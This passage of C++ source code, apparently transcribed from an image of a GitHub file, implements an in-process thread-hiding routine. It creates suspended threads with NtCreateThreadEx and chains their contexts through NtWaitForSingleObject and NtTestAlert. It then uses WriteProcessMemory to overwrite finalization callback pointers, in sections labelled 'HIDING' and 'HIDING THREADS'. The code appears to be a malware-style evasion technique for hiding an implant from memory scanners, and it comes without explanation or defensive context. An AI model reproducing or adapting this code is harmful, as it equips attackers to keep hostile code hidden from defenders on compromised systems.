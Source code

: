 ```cpp
        return -1;
    }

    /*-----------HIDING-------------*/

    if (!NT_SUCCESS(Status = NtCreateThreadEx(&Thread, THREAD_ALL_ACCESS, NULL, GetCurrentProcess(), NULL, NULL, TRUE, 0, 0x1000 * 20, 0x1000 * 20, NULL))) {
        return -1;
    }

    //i copy the context of the thread created 
    (*CtxInit).ContextFlags = CONTEXT_FULL;
    if (!NT_SUCCESS(Status = NtGetContextThread(Thread, CtxInit))) {
        return -1;
    }

    for (int i = 0; i < 8; i++) {
        custom_memcpy_classic(&Ctx[i], CtxInit, sizeof(CONTEXT));
    }

    /*---------------------------------*/
    /*-------------FIXING--------------*/

    if (!NT_SUCCESS(Status = NtCreateThreadEx(&ThreadFix, THREAD_ALL_ACCESS, NULL, GetCurrentProcess(), NULL, NULL, TRUE, 0, 0x1000 * 20, 0x1000 * 20, NULL))) {
        return -1;
    }

    (*CtxInitFix).ContextFlags = CONTEXT_FULL;
    if (!NT_SUCCESS(Status = NtGetContextThread(ThreadFix, CtxInitFix))) {
        return -1;
    }

    for (int i = 0; i < 8; i++) {
        custom_memcpy_classic(&CtxFix[i], CtxInitFix, sizeof(CONTEXT));
    }

    /*---------------------------------*/
    /*-----------HIDING THREADS-------------*/
   
    //first thread just waiting for the event to be set
    *(ULONG_PTR*)((Ctx[0]).Rsp) = (DWORD64)NtTestAlertAddress;
    /* wait til EvntSync gets triggered */
    Ctx[0].Rip = (DWORD64)NtWaitForSingleObjectAddress;
    Ctx[0].Rcx = (DWORD64)(*EvntHide);
    Ctx[0].Rdx = FALSE;
    Ctx[0].R8 = NULL;

    *(ULONG_PTR*)((Ctx[1]).Rsp) = (DWORD64)NtTestAlertAddress;
    Ctx[1].Rip = (DWORD64)WriteProcessMemory;
    Ctx[1].Rcx = (DWORD64)(HANDLE)-1;
    Ctx[1].Rdx = (DWORD64) & (callbackinfo[0]->FinalizationCallback);
    Ctx[1].R8 = (DWORD64)SafeCallback;
    Ctx[1].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((Ctx[2]).Rsp) = (DWORD64)NtTestAlertAddress;
    Ctx[2].Rip = (DWORD64)WriteProcessMemory;
    Ctx[2].Rcx = (DWORD64)(HANDLE)-1;
    Ctx[2].Rdx = (DWORD64) & (callbackinfo[1]->FinalizationCallback);
    Ctx[2].R8 = (DWORD64)SafeCallback;
    Ctx[2].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((Ctx[3]).Rsp) = (DWORD64)NtTestAlertAddress;
```